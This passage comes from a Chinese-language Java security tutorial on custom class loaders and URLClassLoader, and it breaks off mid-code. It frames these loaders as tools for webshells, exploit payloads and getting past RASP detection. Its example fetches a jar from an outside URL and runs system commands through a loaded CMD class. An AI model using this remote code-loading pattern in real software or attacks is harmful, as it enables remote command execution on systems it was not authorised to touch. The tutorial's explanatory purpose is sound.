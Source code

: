 ```java

			System.out.println(str);
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

利用自定义类加载器我们可以在webshell中实现加载并调用自己编译的类对象，比如本地命令执行漏洞调用自定义类字节码的native方法绕过RASP检测，也可以用于加密重要的Java类字节码(只能算弱加密了)。

## URLClassLoader

`URLClassLoader`继承了`ClassLoader`，`URLClassLoader`提供了加载远程资源的能力，在写漏洞利用的`payload`或者`webshell`的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。

**TestURLClassLoader.java示例：**

```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

/**
 * Creator: yz
 * Date: 2019/12/18
 */
public class TestURLClassLoader {

	public static void main(String[] args) {
		try {
			// 定义远程加载的jar路径
			URL url = new URL("https://javaweb.org/tools/cmd.jar");

			// 创建URLClassLoader对象，并加载远程jar包
			URLClassLoader ucl = new URLClassLoader(new URL[]{url});

			// 定义需要执行的系统命令
			String cmd = "ls";

			// 通过URLClassLoader加载远程jar包中的CMD类
			Class cmdClass = ucl.loadClass("CMD");

			// 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
			Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);

			// 获取命令执行结果的输入流
			InputStream           in   = process.getInputStream();
			ByteArrayOutputStream baos = new ByteArrayOutputStream();
			byte[]                b    = new byte[1024];
			int                   a    = -1;

			// 读取命令执行结果
			while ((a = in.read(b)) != -1) {
				baos.write(b, 0, a);
			}

			// 输出命令执行结果
			System.out.println(baos.toString());
		} catch (Exception e) {
			e.printStackTrace();
```